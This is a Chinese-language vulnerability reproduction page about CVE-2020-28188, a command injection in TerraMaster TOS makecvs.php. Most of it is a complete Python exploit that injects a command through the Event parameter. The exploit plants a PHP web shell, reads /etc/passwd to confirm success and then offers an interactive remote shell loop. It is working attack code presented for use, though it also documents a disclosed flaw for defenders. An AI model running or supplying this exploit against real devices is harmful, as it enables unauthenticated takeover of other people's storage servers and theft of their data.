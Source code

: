 # TerraMaster TOS makecvs.php 远程命令执行漏洞 CVE-2020-28188

## 漏洞描述

TerraMaster TOS 4.2.06 以下中 makecvs.php 存在任意文件写入，攻击者可以上传恶意文件控制服务器

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313162331471.png)



存在漏洞的为 **/include/makecvs.php** 中的Event参数



使用EXP文件上传并执行命令



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313162331359.png)



## 漏洞POC

```python
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06

#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
args = parser.parse_args()

url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"

def check_endpoint(url, headers):
	response = requests.get(url+'/version', headers=headers, verify=False)
	if response.status_code == 200:
		print("[+] TerraMaster TOS version: ", str(response.content))
	else:
		print("\n[-] TerraMaster TOS response code: ", response.status_code)
		sys.exit()
		
def upload_shell(url, headers, shell_filename):
	payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
	payload = urllib.parse.quote(payload, safe='')
	print("[/] Uploading shell...")
	response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
	time.sleep(1)
	response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
	if ('root:' in str(response.content, 'utf-8')):
		print("[+] Upload succeeded")
	else:
		print("\n[-] Error uploading shell: ", response.content)
		sys.exit()

def interactive_shell(url, headers, shell_filename, cmd):
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
	print(str(response.text)+"\n")


def delete_shell(url, headers, shell_filename):
	delcmd = "rm /usr/www/"+shell_filename
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
	print("\n[+] Shell deleted")

upload_shell(url, headers, shell_filename)
try:
	while True:
		cmd = input("# ")
		interactive_shell(url, headers, shell_filename, cmd)
except:
	delete_shell(url, headers, shell_filename)
```